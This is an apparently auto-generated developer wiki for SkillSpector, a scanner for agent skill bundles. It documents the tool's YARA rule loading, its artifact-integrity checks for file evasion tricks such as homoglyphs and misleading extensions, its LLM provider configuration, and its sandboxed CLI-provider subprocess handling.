Sources: [src/skillspector/nodes/analyzers/static_yara.py:75-81](), [src/skillspector/nodes/analyzers/static_yara.py:240-258]()

### User-Supplied Rules

Users can supply additional rules via the `--yara-rules-dir` CLI flag. 

1. **Discovery**: The `_collect_rule_files` function scans provided directories for files matching `_RULE_EXTENSIONS` (`*.yar`, `*.yara`, `*.yar.b64`, `*.yara.b64`) [src/skillspector/nodes/analyzers/static_yara.py:72-73](), [src/skillspector/nodes/analyzers/static_yara.py:178-196]().
2. **Decoding**: Encoded suffixes are automatically detected and decoded from Base64 prior to compilation.
3. **Resource Bounds**: Rule compilation and collection respect strict limits (`MAX_YARA_RULE_FILE_BYTES`, `MAX_YARA_RULE_TOTAL_BYTES`, `MAX_YARA_RULE_LOAD_SECONDS`) to prevent denial-of-service via malformed rule sets [src/skillspector/nodes/analyzers/static_yara.py:88-94]().

Sources: [src/skillspector/nodes/analyzers/static_yara.py:72-94](), [src/skillspector/nodes/analyzers/static_yara.py:178-196]()

---

# Page: Artifact Integrity and Evasion Detection (AE Rules)

# Artifact Integrity and Evasion Detection (AE Rules)

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/artifacts.py](src/skillspector/artifacts.py)
- [src/skillspector/inspection_ledger.py](src/skillspector/inspection_ledger.py)
- [src/skillspector/nodes/analyzers/artifact_integrity.py](src/skillspector/nodes/analyzers/artifact_integrity.py)
- [src/skillspector/nodes/analyzers/static_patterns_tool_misuse.py](src/skillspector/nodes/analyzers/static_patterns_tool_misuse.py)
- [src/skillspector/security_reconstruction.py](src/skillspector/security_reconstruction.py)
- [src/skillspector/unicode_confusables.py](src/skillspector/unicode_confusables.py)
- [tests/nodes/analyzers/test_artifact_integrity_bounds.py](tests/nodes/analyzers/test_artifact_integrity_bounds.py)
- [tests/nodes/analyzers/test_security_reconstruction.py](tests/nodes/analyzers/test_security_reconstruction.py)
- [tests/nodes/test_security_end_to_end.py](tests/nodes/test_security_end_to_end.py)
- [tests/nodes/test_security_remediation.py](tests/nodes/test_security_remediation.py)

</details>


## Purpose and Scope
This page details the implementation of the `artifact_integrity` analyzer module (`[src/skillspector/nodes/analyzers/artifact_integrity.py]()`), canonical artifact classification (`[src/skillspector/artifacts.py]()`), and bounded security text reconstruction (`[src/skillspector/security_reconstruction.py]()`). The artifact integrity subsystem identifies evasion techniques, malicious file characteristics, script/character anomalies, and structural discrepancies (Rules AE1 through AE6) while enforcing strict execution budgets and ledger audits (`[src/skillspector/inspection_ledger.py]()`).

Sources: `[src/skillspector/nodes/analyzers/artifact_integrity.py:1-41]()`, `[src/skillspector/artifacts.py:1-43]()`, `[src/skillspector/security_reconstruction.py:1-29]()`

---

## 1. Artifact Classification and Security Projections

SkillSpector treats raw bytes as the absolute source of truth. Text and binary analyzers do not inspect raw bytes blindly; instead, they consume derived projections (`SecurityTextView`) with strict offset-mapping guarantees to prevent evasion via unicode manipulation, mixed scripts, or inter-character spacing.

### Content Kinds and Dispositions
Artifacts are evaluated via `classify_artifact()` in `[src/skillspector/artifacts.py]()` which categorizes payloads into:
* `ContentKind.TEXT`: Decodable text content eligible for lexical and pattern analysis.
* `ContentKind.BINARY`: Binary assets (e.g., PNG, ZIP, ELF, PE) tracked in inventory.
* `ContentKind.OPAQUE`: Files with unrecognized magic headers or partial traversal context.

The disposition of an artifact is tracked using `ArtifactDisposition` (`ANALYZED`, `PARTIAL`, `FAILED`, or `OUT_OF_SCOPE`) as defined in `[src/skillspector/artifacts.py:36-43]`.

### Security Text Views
To defeat evasion tactics like zero-width space injection or homoglyph substitution, `normalized_security_view()` and `security_text_views()` construct bounded projection wrappers (`SecurityTextView`) that map derived character coordinates back to exact source offsets (`[src/skillspector/artifacts.py:71-87]()`).

```mermaid
graph TD
    RawBytes["Raw Bytes (Source of Truth)"] --> Classify["classify_artifact()"]
    Classify -->|ContentKind.TEXT| NormView["normalized_security_view()"]
    Classify -->|ContentKind.BINARY| Opaque["Opaque / Partial Inventory"]
    NormView --> SecView["SecurityTextView (name, text, source_offsets)"]
    SecView --> Analyzers["Static & Integrity Analyzers"]

    style RawBytes fill:#fff,stroke:#000,stroke-width:2px
    style Classify fill:#fff,stroke:#000,stroke-width:2px
    style NormView fill:#fff,stroke:#000,stroke-width:2px
    style SecView fill:#fff,stroke:#000,stroke-width:2px
    style Analyzers fill:#fff,stroke:#000,stroke-width:2px
```
*Diagram 1: Natural Language Space to Code Entity Space — Artifact Normalization Pipeline*

Sources: `[src/skillspector/artifacts.py:28-87](), [tests/nodes/test_security_remediation.py:48-61]()`

---

## 2. The AE Rules Matrix (AE1–AE6)

The `artifact_integrity` analyzer node evaluates rules `AE1` through `AE6` against inventoried components and file caches.

| Rule ID | Rule Name / Description | Target Condition | Code Pointer |
| :--- | :--- | :--- | :--- |
| **AE1** | Unresolved or Partial References | Referenced artifacts within a skill bundle that cannot be resolved or are marked partial/opaque. | `[tests/nodes/test_security_remediation.py:58-61]()` |
| **AE2** | Misleading Extensions | Discrepancy between byte content magic and file extension (e.g., text content in a `.png` or binary payload in a `.md`). | `[tests/nodes/test_security_remediation.py:48-57]()` |
| **AE3** | NUL Byte Injection | Presence of unexpected `NUL` (`\x00`) bytes inside text documents or metadata files. | `[tests/nodes/test_security_remediation.py:133-154]()` |
| **AE4** | Unicode / Mixed-Script Anomalies | High density of homoglyphs, confusable character skeletons, or default-ignorable code points (e.g., Cyrillic `а` mixed into Latin text). | `[src/skillspector/artifacts.py:205-240]()`, `[tests/nodes/test_security_remediation.py:119-131]()` |
| **AE5** | Oversized Artifacts | Files exceeding character or byte limits (`MAX_ANALYZABLE_FILE_BYTES`), forcing partial inspection or truncation. | `[src/skillspector/constants.py:30]()`, `[tests/nodes/test_security_end_to_end.py:35-48]()` |
| **AE6** | Inter-Character Obfuscation | Letter-spacing, concealed instruction spans, or split keywords designed to evade static lexical matching. | `[src/skillspector/artifacts.py:196-203]()`, `[src/skillspector/nodes/analyzers/artifact_integrity.py:49-267]()` |

Sources: `[src/skillspector/nodes/analyzers/artifact_integrity.py:41-267](), [tests/nodes/test_security_remediation.py:48-154]()`

---

## 3. Security Reconstruction Support

When text obfuscation uses declared markers or substitution gaps (e.g., splitting a forbidden command with placeholder characters or zero-width delimiters), SkillSpector invokes `src/skillspector/security_reconstruction.py`.

The function `build_declared_marker_views()` scans bounded directive headers and constructs literal, source-mapped security text views for downstream analysis without executing untrusted code (`[tests/nodes/analyzers/test_security_reconstruction.py:125-139]()`).

```mermaid
graph TD
    InputText["Obfuscated Source Text"] --> PreFilter["_DIRECTIVE_PREFILTER_RE"]
    PreFilter --> MatchVerbs["_QUOTED_DIRECTIVE_START_RE"]
    MatchVerbs --> MarkerEval["build_declared_marker_views()"]
    MarkerEval --> ProjectedView["SecurityTextView (Reconstructed Payload)"]
    ProjectedView --> StaticRunner["static_runner.run_static_patterns()"]

    style InputText fill:#fff,stroke:#000,stroke-width:2px
    style PreFilter fill:#fff,stroke:#000,stroke-width:2px
    style MatchVerbs fill:#fff,stroke:#000,stroke-width:2px
    style MarkerEval fill:#fff,stroke:#000,stroke-width:2px
    style ProjectedView fill:#fff,stroke:#000,stroke-width:2px
    style StaticRunner fill:#fff,stroke:#000,stroke-width:2px
```
*Diagram 2: Natural Language Space to Code Entity Space — Security Reconstruction Architecture*

Sources: `[src/skillspector/security_reconstruction.py:1-139](), [tests/nodes/analyzers/test_security_reconstruction.py:125-156]()`

---

## 4. Budget Enforcement and Inspection Ledger

The `artifact_integrity` analyzer participates in SkillSpector's fail-closed resource governance model. It monitors wall-clock budgets (`transitive_remaining_seconds`), finding counts (`MAX_FINDINGS_PER_ARTIFACT`, `MAX_FINDINGS_PER_ANALYZER`), and character bounds.

### Ledger Outcomes and Reasons
When limits are breached, work items terminate cleanly with recorded ledger reasons (`[src/skillspector/inspection_ledger.py:23-96]()`):
* `LedgerOutcome.PARTIAL` / `LedgerReason.RUNTIME_LIMIT`: Triggered when workflow budgets expire mid-inspection (`[tests/nodes/analyzers/test_artifact_integrity_bounds.py:21-46]()`).
* `LedgerOutcome.PARTIAL` / `LedgerReason.OUTPUT_LIMIT`: Triggered when finding caps (`MAX_FINDINGS_PER_ANALYZER`) are reached (`[tests/nodes/analyzers/test_artifact_integrity_bounds.py:65-93]()`).
* `LedgerOutcome.COMPLETED` / `LedgerReason.OPAQUE_CONTENT`: Assigned to binary or media assets that fall outside text inspection scopes (`[tests/nodes/test_security_remediation.py:75-116]()`).

Sources: `[src/skillspector/inspection_ledger.py:23-96](), [tests/nodes/analyzers/test_artifact_integrity_bounds.py:11-93]()`

---

# Page: LLM Integration and Provider System

# LLM Integration and Provider System

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [docs/release/skillspector-2.10.0.md](docs/release/skillspector-2.10.0.md)
- [src/skillspector/cleanup.py](src/skillspector/cleanup.py)
- [src/skillspector/constants.py](src/skillspector/constants.py)
- [src/skillspector/llm_utils.py](src/skillspector/llm_utils.py)
- [src/skillspector/model_info.py](src/skillspector/model_info.py)
- [src/skillspector/providers/__init__.py](src/skillspector/providers/__init__.py)
- [src/skillspector/providers/base.py](src/skillspector/providers/base.py)
- [tests/unit/test_constants.py](tests/unit/test_constants.py)
- [tests/unit/test_llm_utils.py](tests/unit/test_llm_utils.py)
- [tests/unit/test_model_info.py](tests/unit/test_model_info.py)

</details>


SkillSpector is designed to be LLM-agnostic, supporting multiple inference backends through a unified provider abstraction. This subsystem manages credential resolution, model metadata (such as context window limits and token budgeting), and structured output generation. The integration ensures that whether a user leverages NVIDIA's API catalog, OpenAI, an enterprise endpoint, or a local CLI-based coding agent, all semantic analyzer nodes receive a consistent interface for security discovery.

For deep technical details, implementation specifics, and configuration guides, refer to the child pages:
- **[Provider System](#4.1)** — Pluggable provider protocols, HTTP/CLI transport backends, and registry configuration.
- **[LLMAnalyzerBase and Meta-Analyzer](#4.2)** — Token-budget chunking, batching, concurrency limits, and the fail-closed meta-analyzer pass.
- **[Inference Usage Telemetry](#4.3)** — Usage tracking, token consumption, latency metrics, and provenance collection.

---

### High-Level LLM Architecture

The LLM integration bridges the gap between the LangGraph-based "Code Entity Space" and the "Natural Language Space" where semantic reasoning occurs.

**LLM Integration and Space Bridging**

```mermaid
graph TD
    subgraph "Natural Language Space (Reasoning)"
        Prompt["LLM Prompts (Jinja2 Templates)"]
        Output["Structured Output (Pydantic Models)"]
    end

    subgraph "Code Entity Space (System Logic)"
        A["Analyzer Nodes (SSD, SDI, SQP) [src/skillspector/nodes/]"]
        BASE["LLMAnalyzerBase [src/skillspector/nodes/llm_analyzer_base.py]"]
        UTILS["llm_utils.py [src/skillspector/llm_utils.py]"]
        PROV["LLMProvider / CredentialsProvider [src/skillspector/providers/base.py]"]
        REG["model_registry.yaml [src/skillspector/providers/]"]
    end

    A -->|inherits| BASE
    BASE -->|requests LLM| UTILS
    UTILS -->|resolves creds| PROV
    PROV -->|lookups token metadata| REG
    UTILS -->|invokes chat model| Prompt
    Prompt -->|returns response| Output
    Output -->|converted to| Finding["Finding Data Models [src/skillspector/data_models.py]"]
```
Sources: [src/skillspector/llm_utils.py:16-33](), [src/skillspector/providers/base.py:37-82](), [src/skillspector/constants.py:38-79]()

---

### 4.1 Provider System

The Provider System abstracts vendor-specific communication behind the `LLMProvider` protocol, which unifies metadata, credential resolution, and native chat model construction [src/skillspector/providers/base.py:115-116](). Selection is driven by the `SKILLSPECTOR_PROVIDER` environment variable, supporting a wide array of endpoints such as `nv_build`, `openai`, `anthropic`, `bedrock`, `ollama`, and local CLI tools like `claude_cli` and `gemini_cli` [src/skillspector/providers/__init__.py:16-46]().

For a complete breakdown of provider protocols (`ModelMetadataProvider`, `CredentialsProvider`, `ChatModelProvider`, `AgentCLICapable`), file layouts, and configuration rules, see **[Provider System](#4.1)**.

Sources: [src/skillspector/providers/base.py:37-127](), [src/skillspector/providers/__init__.py:16-46]()

---

### 4.2 LLMAnalyzerBase and Meta-Analyzer

Semantic analyzers inherit from `LLMAnalyzerBase`, which automates token-budget chunking, asynchronous batching via `asyncio.gather`, retry policies, and structured output parsing through LangChain [src/skillspector/llm_utils.py:165-172](). In tandem, `LLMMetaAnalyzer` executes a fail-closed review pass over consolidated findings, using local-only file handling to enrich or filter security telemetry.

For detailed documentation on chunking algorithms, concurrency throttles, and the meta-analyzer pass, see **[LLMAnalyzerBase and Meta-Analyzer](#4.2)**.

Sources: [src/skillspector/llm_utils.py:165-172](), [src/skillspector/model_info.py:32-71]()

---

### 4.3 Inference Usage Telemetry

SkillSpector tracks token consumption, latency, and provider provenance across execution runs using `InferenceUsageCollector` [src/skillspector/inference_usage.py](). This telemetry allows auditing token expenditure and ensuring compliance with operational budgets.

For details on metrics collection and reporting formats, see **[Inference Usage Telemetry](#4.3)**.

Sources: [src/skillspector/llm_utils.py:36-49]()

---

### Model Configuration Waterfall and Slot Overrides

Model selection is managed via a hierarchical waterfall that supports global overrides, slot-specific configurations (e.g., separating `meta_analyzer` from `semantic_security_discovery`), and provider defaults [src/skillspector/constants.py:38-79]().

**Model Resolution Priority**

```mermaid
graph TD
    subgraph "Model Configuration Hierarchy"
        S1["1. SKILLSPECTOR_MODEL_{SLOT} [src/skillspector/constants.py]"]
        S2["2. SKILLSPECTOR_MODEL (Global) [src/skillspector/constants.py]"]
        S3["3. SLOT_DEFAULTS (Provider-Specific) [src/skillspector/providers/base.py]"]
        S4["4. DEFAULT_MODEL (Provider Fallback) [src/skillspector/providers/base.py]"]
    end

    S1 -->|if set| Result["Active Model ID"]
    S1 -->|unset| S2
    S2 -->|if set| Result
    S2 -->|unset| S3
    S3 -->|if defined| Result
    S3 -->|unset| S4
    S4 --> Result
```
Sources: [src/skillspector/constants.py:61-79](), [src/skillspector/providers/base.py:37-52]()

| Priority | Source | Description |
| :--- | :--- | :--- |
| 1 (Highest) | `SKILLSPECTOR_MODEL_{SLOT}` | Granular environment override for specific node slots (e.g., `SKILLSPECTOR_MODEL_META_ANALYZER`) [src/skillspector/constants.py:61-74](). |
| 2 | `SKILLSPECTOR_MODEL` | Global override environment variable for all analyzer slots [src/skillspector/providers/base.py:43-45](). |
| 3 | `SLOT_DEFAULTS` | Provider-specific dictionary mapping individual analyzer slots to preferred models [src/skillspector/providers/base.py:47-48](). |
| 4 (Lowest) | `DEFAULT_MODEL` | The provider's general-purpose default fallback model [src/skillspector/providers/base.py:47-51](). |

Credential resolution follows a complementary waterfall, querying the active provider's specific credential keys first before falling back to `OPENAI_API_KEY` and `OPENAI_BASE_URL` when unconfigured [src/skillspector/llm_utils.py:16-33]().

Sources: [src/skillspector/constants.py:61-83](), [src/skillspector/llm_utils.py:16-33](), [src/skillspector/providers/base.py:37-60]()

---

# Page: Provider System

# Provider System

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [.env.example](.env.example)
- [src/skillspector/providers/anthropic/provider.py](src/skillspector/providers/anthropic/provider.py)
- [src/skillspector/providers/anthropic_proxy/provider.py](src/skillspector/providers/anthropic_proxy/provider.py)
- [src/skillspector/providers/azure_openai/__init__.py](src/skillspector/providers/azure_openai/__init__.py)
- [src/skillspector/providers/azure_openai/model_registry.yaml](src/skillspector/providers/azure_openai/model_registry.yaml)
- [src/skillspector/providers/azure_openai/provider.py](src/skillspector/providers/azure_openai/provider.py)
- [src/skillspector/providers/bedrock/provider.py](src/skillspector/providers/bedrock/provider.py)
- [src/skillspector/providers/chat_models.py](src/skillspector/providers/chat_models.py)
- [src/skillspector/providers/nv_build/model_registry.yaml](src/skillspector/providers/nv_build/model_registry.yaml)
- [src/skillspector/providers/nv_build/provider.py](src/skillspector/providers/nv_build/provider.py)
- [src/skillspector/providers/ollama/__init__.py](src/skillspector/providers/ollama/__init__.py)
- [src/skillspector/providers/ollama/model_registry.yaml](src/skillspector/providers/ollama/model_registry.yaml)
- [src/skillspector/providers/ollama/provider.py](src/skillspector/providers/ollama/provider.py)
- [src/skillspector/providers/openai/provider.py](src/skillspector/providers/openai/provider.py)
- [src/skillspector/providers/openai_compatible/__init__.py](src/skillspector/providers/openai_compatible/__init__.py)
- [src/skillspector/providers/openai_compatible/model_registry.yaml](src/skillspector/providers/openai_compatible/model_registry.yaml)
- [src/skillspector/providers/openai_compatible/provider.py](src/skillspector/providers/openai_compatible/provider.py)
- [tests/provider/test_provider_endpoint.py](tests/provider/test_provider_endpoint.py)
- [tests/unit/test_anthropic_proxy_provider.py](tests/unit/test_anthropic_proxy_provider.py)
- [tests/unit/test_bedrock_provider.py](tests/unit/test_bedrock_provider.py)
- [tests/unit/test_new_providers.py](tests/unit/test_new_providers.py)
- [tests/unit/test_providers.py](tests/unit/test_providers.py)

</details>


The SkillSpector Provider System is a pluggable architecture that abstracts LLM-specific details, including authentication, API endpoints, model selection logic, and token-budget metadata. This allows core analyzer logic to remain agnostic of whether it is communicating with OpenAI, Anthropic, AWS Bedrock, Ollama, Azure OpenAI, or NVIDIA's inference gateways.

This is a parent page covering the core provider protocols, HTTP-based providers, model registries, and provider selection. For details on CLI-transport providers, see [Agent CLI Providers](#4.1.1).

## Core Protocols

The system is built on structural subtyping protocols (PEP 544) defined in `src/skillspector/providers/base.py`. These protocols ensure that any provider implementation provides the necessary interface for the rest of the application.

### ModelMetadataProvider
This protocol manages provider-side knowledge about model capabilities and selection logic [src/skillspector/providers/base.py:25-47]().
*   `get_context_length(model: str)`: Returns the total token window [src/skillspector/providers/base.py:27-28]().
*   `get_max_output_tokens(model: str)`: Returns the provider-imposed limit on generation length [src/skillspector/providers/base.py:30-31]().
*   `resolve_model(slot: str)`: Implements waterfall logic to select a model ID based on the specific use case (the "slot") [src/skillspector/providers/base.py:33-37]().
*   `DEFAULT_MODEL` and `SLOT_DEFAULTS`: Class variables defining baseline model selections [src/skillspector/providers/base.py:39-40]().

### CredentialsProvider
Defines how the system retrieves API keys and base URLs [src/skillspector/providers/base.py:49-57]().
*   `resolve_credentials()`: Returns a tuple of `(api_key, base_url)`. `base_url` can be `None` to defer to the client's default [src/skillspector/providers/base.py:51-57]().

### ChatModelProvider
Defines the factory method for constructing the actual LangChain model instance [src/skillspector/providers/base.py:60-69]().
*   `create_chat_model(...)`: Returns a `BaseChatModel` or `None` if the environment is unconfigured [src/skillspector/providers/base.py:62-69]().

**Sources:** [src/skillspector/providers/base.py:1-74]()

---

## Provider Selection and Data Flow

The active provider is determined at runtime via the `SKILLSPECTOR_PROVIDER` environment variable. The selection logic is encapsulated in `_select_active_provider` [src/skillspector/providers/__init__.py:57-92]().

### Selection Logic Waterfall
1.  **Environment Variable**: Reads `SKILLSPECTOR_PROVIDER` [src/skillspector/providers/__init__.py:60-61]().
2.  **Mapping**:
    *   `openai` → `OpenAIProvider` [src/skillspector/providers/__init__.py:64-65]()
    *   `openai_compatible` → `OpenAICompatibleProvider`
    *   `azure_openai` → `AzureOpenAIProvider`
    *   `ollama` → `OllamaProvider`
    *   `anthropic` → `AnthropicProvider` [src/skillspector/providers/__init__.py:66-67]()
    *   `anthropic_proxy` → `AnthropicProxyProvider` [src/skillspector/providers/__init__.py:68-69]()
    *   `bedrock` → `BedrockProvider` [src/skillspector/providers/__init__.py:70-71]()
    *   `nv_build` → `NvBuildProvider` (Default) [src/skillspector/providers/__init__.py:72-73]()
3.  **Dynamic Extensions**: The system attempts to load `nv_inference` if explicitly requested or as a fallback for internal NVIDIA builds [src/skillspector/providers/__init__.py:79-87]().

### Provider Architecture Diagram

**Model Metadata Resolution Flow**
```mermaid
graph TD
    subgraph "NaturalLanguageSpace"
        User["UserConfiguresSKILLSPECTOR_PROVIDER"]
        EnvModel["UserSetsSKILLSPECTOR_MODEL"]
    end

    subgraph "CodeEntitySpace"
        CONST["src/skillspector/constants.py"]
        GP["get_metadata_provider()"]
        SAP["_select_active_provider()"]
        
        subgraph "Providers"
            NVP["NvBuildProvider"]
            OAP["OpenAIProvider"]
            BRP["BedrockProvider"]
            APX["AnthropicProxyProvider"]
            OLP["OllamaProvider"]
            AZP["AzureOpenAIProvider"]
        end

        REG["src/skillspector/providers/registry.py"]
        YAML["model_registry.yaml"]
    end

    User -- "SetsENV" --> SAP
    CONST -- "Calls" --> GP
    GP -- "Invokes" --> SAP
    SAP -- "ReturnsInstance" --> NVP
    SAP -- "ReturnsInstance" --> OAP
    SAP -- "ReturnsInstance" --> BRP
    SAP -- "ReturnsInstance" --> APX
    SAP -- "ReturnsInstance" --> OLP
    SAP -- "ReturnsInstance" --> AZP
    
    EnvModel -- "OverridesSlot" --> NVP
    NVP -- "lookup_context_length()" --> REG
    REG -- "_load()" --> YAML
```
**Sources:** [src/skillspector/providers/__init__.py:57-92](), [src/skillspector/providers/registry.py:16-65](), [src/skillspector/providers/nv_build/provider.py:1-88]()

---

## Built-in HTTP Providers

SkillSpector ships with a robust set of built-in providers backed by HTTP endpoints, local servers, or cloud gateways. Each hosted or structured provider maintains its own `model_registry.yaml` file defining token limits and constraints.

| Provider | Key Env Var | Default Model | Mechanism |
| :--- | :--- | :--- | :--- |
| **NvBuild** | `NVIDIA_INFERENCE_KEY` | `z-ai/glm-5.2` | OpenAI-compatible [src/skillspector/providers/nv_build/provider.py:41]() |
| **NvInference** | `NVIDIA_INFERENCE_KEY` / `NVIDIA_INFERENCE_METADATA_KEY` | (Catalog-driven) | NVIDIA Catalog API integration |
| **OpenAI** | `OPENAI_API_KEY` | `gpt-4o` | Standard `ChatOpenAI` [src/skillspector/providers/openai/provider.py:41]() |
| **OpenAI Compatible** | `SKILLSPECTOR_COMPAT_API_KEY` / `SKILLSPECTOR_COMPAT_BASE_URL` | `gpt-4o` | Generic gateway client |
| **Azure OpenAI** | `AZURE_OPENAI_API_KEY` / `AZURE_OPENAI_ENDPOINT` | `gpt-4o` | `AzureChatOpenAI` [src/skillspector/providers/azure_openai/provider.py:45-57]() |
| **Ollama** | `OLLAMA_BASE_URL` (optional) | `llama3.1:8b` | Local endpoint via `ChatOpenAI` [src/skillspector/providers/ollama/provider.py]() |
| **Anthropic** | `ANTHROPIC_API_KEY` | `claude-opus-4-6` | Standard `ChatAnthropic` [src/skillspector/providers/anthropic/provider.py:46]() |
| **Anthropic Proxy**| `ANTHROPIC_PROXY_API_KEY` / `ANTHROPIC_PROXY_ENDPOINT_URL` | `claude-3-5-sonnet` | Custom `httpx` rewrite [src/skillspector/providers/anthropic_proxy/provider.py:69-92]() |
| **Bedrock** | `AWS_PROFILE` / `AWS_REGION` | `us.anthropic.claude-sonnet-4-6-20250915-v1:0` | AWS SigV4 via `boto3` [src/skillspector/providers/bedrock/provider.py:102-133]() |

### Shared Chat Model Utilities
The `src/skillspector/providers/chat_models.py` module supplies shared constructors and helpers for configuring reasoning effort, temperature limits, seed forwarding, and base URL safety validation across OpenAI-compatible providers [src/skillspector/providers/chat_models.py:31-108]().

### Model Registry and Configuration
The `registry.py` module parses provider-local `model_registry.yaml` files, caches token allocation boundaries, and respects global overrides specified through `SKILLSPECTOR_MODEL_REGISTRY` [src/skillspector/providers/registry.py:25-65]().

**Sources:** [src/skillspector/providers/chat_models.py:1-108](), [src/skillspector/providers/azure_openai/provider.py:1-95](), [src/skillspector/providers/bedrock/provider.py:1-146]()

---

## Agent CLI Providers

For scenarios where direct API keys are unavailable or local subprocess-based tooling is preferred, SkillSpector implements CLI-transport providers (`claude_cli`, `codex_cli`, `gemini_cli`, `antigravity_cli`). 

For complete implementation details, wrapper isolation rules, structured output extractors, and live integration tests, see [Agent CLI Providers](#4.1.1).

**Sources:** [src/skillspector/providers/_agent_cli.py:1-102]()

---

## Model Slotting and Constants

The `constants.py` module initializes global model configurations by resolving models for specific workflow "slots" (such as `meta_analyzer` or general analysis) [src/skillspector/constants.py:67-75]().

### Resolution Waterfall
For each slot, the model is resolved via `resolve_model(slot)`:
1.  **Global Override**: `SKILLSPECTOR_MODEL` environment variable [src/skillspector/providers/anthropic/provider.py:93-94]().
2.  **Slot Default**: The provider's `SLOT_DEFAULTS` map (e.g., opting for cost-effective models during high-volume meta-analysis filter passes) [src/skillspector/providers/anthropic/provider.py:47-49]().
3.  **General Default**: The provider's `DEFAULT_MODEL` [src/skillspector/providers/anthropic/provider.py:46]().

### Token Calculation Entity Map
SkillSpector uses `MAX_INPUT_TOKENS_PCT` (75%) to calculate safe input chunking bounds, leaving headroom for system prompts and reasoning tokens [src/skillspector/constants.py:26]().

```mermaid
graph LR
    subgraph "SystemLogic"
        InputBudget["InputBudget75Pct"]
        Fallback["DefaultContext128k"]
    end

    subgraph "CodeEntitySpace"
        CONST["src/skillspector/constants.py"]
        VAL["_validate_model_config()"]
        META["ModelMetadataProvider"]
        REG["src/skillspector/providers/registry.py"]
    end

    VAL -- "Calls" --> META
    META -- "Uses" --> REG
    REG -- "ReturnsNone?" --> Fallback
    CONST -- "Defines" --> InputBudget
```

**Sources:** [src/skillspector/constants.py:25-101](), [src/skillspector/providers/base.py:25-47](), [src/skillspector/providers/anthropic/provider.py:86-94]()

---

# Page: Agent CLI Providers

# Agent CLI Providers

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [docs/release/skillspector-2.10.0.md](docs/release/skillspector-2.10.0.md)
- [src/skillspector/llm_utils.py](src/skillspector/llm_utils.py)
- [src/skillspector/providers/_agent_cli.py](src/skillspector/providers/_agent_cli.py)
- [src/skillspector/providers/_agent_cli_base.py](src/skillspector/providers/_agent_cli_base.py)
- [src/skillspector/providers/antigravity_cli/__init__.py](src/skillspector/providers/antigravity_cli/__init__.py)
- [src/skillspector/providers/antigravity_cli/provider.py](src/skillspector/providers/antigravity_cli/provider.py)
- [src/skillspector/providers/base.py](src/skillspector/providers/base.py)
- [src/skillspector/providers/claude_cli/__init__.py](src/skillspector/providers/claude_cli/__init__.py)
- [src/skillspector/providers/claude_cli/provider.py](src/skillspector/providers/claude_cli/provider.py)
- [src/skillspector/providers/codex_cli/provider.py](src/skillspector/providers/codex_cli/provider.py)
- [src/skillspector/providers/gemini_cli/provider.py](src/skillspector/providers/gemini_cli/provider.py)
- [tests/integration/test_agent_cli_live.py](tests/integration/test_agent_cli_live.py)
- [tests/unit/test_agent_cli.py](tests/unit/test_agent_cli.py)
- [tests/unit/test_llm_utils.py](tests/unit/test_llm_utils.py)

</details>


## Purpose and Scope

This document details the architecture and implementation of CLI-transport LLM providers within SkillSpector (`claude_cli`, `codex_cli`, `gemini_cli`, and `antigravity_cli`). These providers allow SkillSpector's stage-2 LLM analysis (such as `meta_analyzer` and semantic analyzers) to operate locally via installed agent CLI binaries rather than consuming cloud API keys. 

Topics covered include the `AgentCLICapable` protocol, `AgentCLIProviderBase` inheritance, the hardened subprocess execution core (`_agent_cli.py`), the `AgentCLIChatModel` LangChain adapter, structured output extraction, availability probing, and optional live integration test harnesses.

---

## 1. Provider Protocols and Base Implementation

SkillSpector defines an optional structural protocol `AgentCLICapable` for providers that bypass the standard HTTP/`ChatOpenAI` pipeline [src/skillspector/providers/base.py:84-113](). Providers satisfying this protocol implement `is_available()` and `complete()`.

```mermaid
graph TD
    A["ModelMetadataProvider"] --> D["AgentCLIProviderBase"]
    B["CredentialsProvider"] --> D
    C["ChatModelProvider"] --> D
    D --> E["ClaudeCLIProvider"]
    D --> F["CodexCLIProvider"]
    D --> G["GeminiCLIProvider"]
    D --> H["AntigravityCLIProvider"]

    classDef default fill:#fff,stroke:#000,stroke-width:1px;
```
*Figure 1: Class hierarchy mapping provider protocols to concrete CLI providers.*

Sources: `[src/skillspector/providers/base.py:84-113](), [src/skillspector/providers/_agent_cli_base.py:33-100]()`

Concrete CLI providers (`ClaudeCLIProvider`, `CodexCLIProvider`, `GeminiCLIProvider`, and `AntigravityCLIProvider`) inherit from `AgentCLIProviderBase` [src/skillspector/providers/_agent_cli_base.py:33-100](). They require no API credentials (`resolve_credentials` returns `None`), delegating authentication entirely to the underlying binary's local session.

| Provider Class | Binary Name (`BINARY_NAME`) | Authentication Method | Notes |
| :--- | :--- | :--- | :--- |
| `ClaudeCLIProvider` | `claude` | Local OAuth / Keychain (`claude auth login`) [src/skillspector/providers/claude_cli/provider.py:33-44]() | Standard Claude Code integration |
| `CodexCLIProvider` | `codex` | Local Codex auth | Sandbox read-only mode |
| `GeminiCLIProvider` | `gemini` | Local Gemini auth | Clean JSON over stdin |
| `AntigravityCLIProvider` | `agy` | Local auth | Registered but **disabled** (TTY-only output prevents pipe capture) [src/skillspector/providers/antigravity_cli/provider.py:16-48]() |

Sources: `[src/skillspector/providers/_agent_cli_base.py:33-100](), [src/skillspector/providers/claude_cli/provider.py:33-44](), [src/skillspector/providers/antigravity_cli/provider.py:16-48]()`

---

## 2. Hardened Subprocess Execution Core (`_agent_cli.py`)

All CLI calls are funneled through `run_agent_cli` in `src/skillspector/providers/_agent_cli.py`, which acts as the single security chokepoint for subprocess execution.

```mermaid
graph TD
    A["LLMAnalyzerBase"] -->|complete prompt| B["AgentCLIProviderBase.complete"]
    B -->|run_agent_cli| C["_agent_cli.run_agent_cli"]
    C --> D["_scrub_env"]
    C --> E["_validate_model_label"]
    C --> F["subprocess.Popen shell=False"]
    F -->|stdin pipe| G["Local Agent CLI Binary"]
    G -->|stdout pipe| H["Output Parser"]
    H -->|assistant text| A

    classDef default fill:#fff,stroke:#000,stroke-width:1px;
```
*Figure 2: Data flow and security barriers during CLI provider execution.*

Sources: `[src/skillspector/providers/_agent_cli.py:16-46](), [src/skillspector/providers/_agent_cli_base.py:59-80]()`

### Key Security Enforcement Mechanisms
1. **No Shell Execution:** `shell=False` is strictly enforced with an explicit argument list (`argv`) [src/skillspector/providers/_agent_cli.py:24]().
2. **Untrusted Content via Stdin Only:** Prompts containing untrusted skill content are passed strictly through process `stdin`, never injected into command-line arguments [src/skillspector/providers/_agent_cli.py:25-27]().
